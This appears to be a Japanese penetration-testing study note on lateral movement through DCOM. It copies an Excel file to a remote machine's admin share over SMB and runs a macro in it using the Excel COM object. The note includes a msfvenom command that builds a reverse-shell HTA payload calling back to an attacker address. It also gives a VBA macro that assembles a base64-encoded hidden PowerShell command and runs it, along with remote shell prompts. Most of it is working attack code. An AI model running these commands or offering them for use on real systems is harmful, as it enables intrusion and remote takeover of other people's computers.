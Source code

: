 * Excelでマクロを作成する

  ```vbscript
  Sub mymacro()
      Shell ("notepad.exe")
  End Sub
  ```

* プロファイルの要件を満たすデスクトップフォルダを作成

  ```powershell
  $Path = "\\172.16.135.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
  
  $temp = [system.io.directory]::createDirectory($Path)
  ```

* リモートにexcelファイルをコピーし実行する

  ```powershell
  $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.135.5"))
  
  $LocalPath = "C:\Users\jeff_admin\myexcel.xls"
  
  $RemotePath = "\\172.16.135.5\c$\myexcel.xls"
  
  [System.IO.File]::Copy($LocalPath, $RemotePath, $True)
  
  $temp = [system.io.directory]::createDirectory($Path)
  
  $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
  
  $com.Run("mymacro")
  ```

* リバースシェル版でマクロを再作成する

  ```
  msfvenom -p windows/shell_reverse_tcp LHOST=172.16.135.10 LPORT=4444 -f hta-psh -o evil.hta
  ```

  pythonで文字列分割する(python.mdを参照)

  ```
  Sub mymacro()
      
      Dim Str As String
      Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
      Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
      Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
      Str = Str + "H0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGk"
      Str = Str + "AcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8Ad"
   
      Str = Str + "HQAeQBsAGUAPQAnAEgAaQBkAGQAZQBuACcAOwAkAHMALgBDAHI"
      Str = Str + "AZQBhAHQAZQBOAG8AVwBpAG4AZABvAHcAPQAkAHQAcgB1AGUAO"
      Str = Str + "wAkAHAAPQBbAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB"
      Str = Str + "0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBTAHQAYQByA"
      Str = Str + "HQAKAAkAHMAKQA7AA=="
      
      Shell (Str)
  End Sub
  ```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname